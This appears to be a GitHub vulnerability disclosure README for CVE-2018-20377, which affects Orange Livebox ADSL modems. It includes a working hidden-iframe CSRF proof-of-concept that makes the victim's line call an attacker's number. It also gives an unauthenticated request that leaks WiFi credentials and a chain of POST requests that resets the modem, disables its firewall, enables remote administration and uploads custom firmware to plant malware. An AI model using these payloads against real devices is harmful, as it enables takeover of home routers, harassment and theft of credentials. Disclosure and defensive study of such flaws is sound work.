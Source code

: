 # LIVEBOX-0DAY   CVE-2018-20377
Arcadyan ARV7519RW22-A-L T VR9 1.2 Multiple security vulnerabilities affecting latest firmware release on ORANGE Livebox ADSL modems.

```
Versión de Firmware:  00.96.320S (01.11.2017-11:43:44)
Versión del Boot:  v0.70.03
Versión del Módem ADSL: 5.4.1.10.1.1A
Versión de Hardware:  02
```


**CWE-359**: *Exposure of Private Information ('Privacy Violation').*

A very serious attack vector allows an attacker to link CSRF drive-by vulnerabilities to exploit Autodialing and Line Test features, succesfully making calls from a victim's line, exposing a client's phone number and making him susceptible to scams and impersonation. Nuisance calls alone are also a serious concern.

` Proof of concept exploit: `  

``` html
<!DOCTYPE html>

<!-- Phone number disclosure, reflected call exploit -->

<html>

<iframe style="display:none" id="csrf-frame-invisible" name="csrf-frame-invisible"></iframe>
<form style="display:none" method='POST' action='http://192.168.1.1/cgi-bin/autodialing.exe' target="csrf-frame-invisible" name="csrf-form-invisible" id="csrf-form-invisible">
  <input type='hidden' name='autodialing_enable' value='1'>
  <input type='hidden' name='autodialing_number' value='5550150'> <!-- attacker's phone number goes here -->
  <input type='hidden' name='autodialing_timeout' value='0'>
  <input type='submit' value='Submit'>
</form>

<script>document.getElementById("csrf-form-invisible").submit()</script>

<img src="http://192.168.1.1/cgi-bin/phone_test.exe" width="0" height="0" border="0">

</html>
```

When the victim visits the malicious site, it will create an autodialing profile on the victim's modem, and activate the Line Test feature. No interaction needed. The phone will ring, and when the call is answered the autodialing feature will call the attacker's number. 

&nbsp;

<!---
-->
 Demo                           | Attack scenario |
:------------------------------:|:----------------------:|
 ![DEMO](poc/CWE-359.gif)       | This vector can be exploited to conduct false flag operations (such as impersonating an individual with a restraint order against another), marketing campaings, harassment, denial of service, and intelligence gathering. |

&nbsp;



**CWE-200**: *Information Exposure: Unauthenticated configuration information leak.*

	The webserver leaks access point security protocol, SSID, and password in plain text.
	GET http://192.168.1.1/get_getnetworkconf.cgi

``` html
	<html>
	<body>
	Orange-SSID<BR>
	PASSWORD<BR>
	255.255.255.0<BR>
	192.168.1.1<BR>
	0<BR>
	WPA<BR>
	<BR>
	</body>
	</html>
```


**CWE-352**: *Cross-Site Request Forgery (CSRF): The web application does not, sufficiently verify whether a well-formed, valid, consistent request was intentionally provided by the user who submitted the request. Allows an attacker to manipulate all configuration parameters.*

```
Integrity Impact 	Complete. 	(There is a total compromise of system integrity. There is a complete loss of system protection, resulting in the entire system being compromised.)  
Availability Impact 	Complete.	(There is a total shutdown of the affected resource. The attacker can render the resource completely unavailable.)  
Access Complexity 	Low.		(Specialized access conditions or extenuating circumstances do not exist. Very little knowledge or skill is required to exploit. )  
Authentication 		None.		(The vulnerability does not require an attacker or user to be logged into the system).   
User interaction        None.  
```

	- Login with default admin:admin credentials after restoring configuration to factory settings. (This can be omited if the victim has an active session.)
	- Change default credentials.
	- Enable remote access.
	- Upload custom firmware to install remote access malware or brick the system.

	
	POST http://192.168.1.1/cgi-bin/restore.exe {empty body} Restores configuration to factory defaults.
	POST http://192.168.1.1/cgi-bin/firewall_SPI.exe {empty body} Disables all firewall protections.
	POST http://192.168.1.1/cgi-bin/setup_remote_mgmt.exe {IP1=FIRST_OCTET &IP2=SECOND_OCTET &IP3=THIRD_OCTET &IP4=FOURTH_OCTET &r_mgnt_port=_PORT } Allows remote administration. 
	POST http://192.168.1.1/cgi-bin/setup_pass.exe	{submit_action=0&userNew=admin&userOldPswd=admin&userNewPswd=NEWPASS&userConPswd=NEWPASS&timeout=0} Changes default password.
	POST http://192.168.1.1/cgi-bin/upgradep.exe Custom firmware update.




**CWE-912**: *Hidden Functionality. The software contains functionality that is not documented, not part of the specification, and not accessible through an interface or command sequence that is obvious to the software's users or administrators.*

Manual firmware update. Allows malware to be installed as described before.
	
	GET http://192.168.1.1/system_firmwarel.stm

## Media coverage

* [BadPackets](https://badpackets.net/over-19000-orange-livebox-adsl-modems-are-leaking-their-wifi-credentials/)
* [InfoSecurity Magazine](https://www.infosecurity-magazine.com/news/20000-orange-modems-leaking-wi-fi/)  
* [BleepingComputer](https://www.bleepingcomputer.com/news/security/orange-livebox-modems-targeted-for-ssid-and-wifi-info/)    
* [GBhackers](https://gbhackers.com/orange-adsl-modems/)    

---

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

**mapez** - [telegram](https://t.me/mapezz)
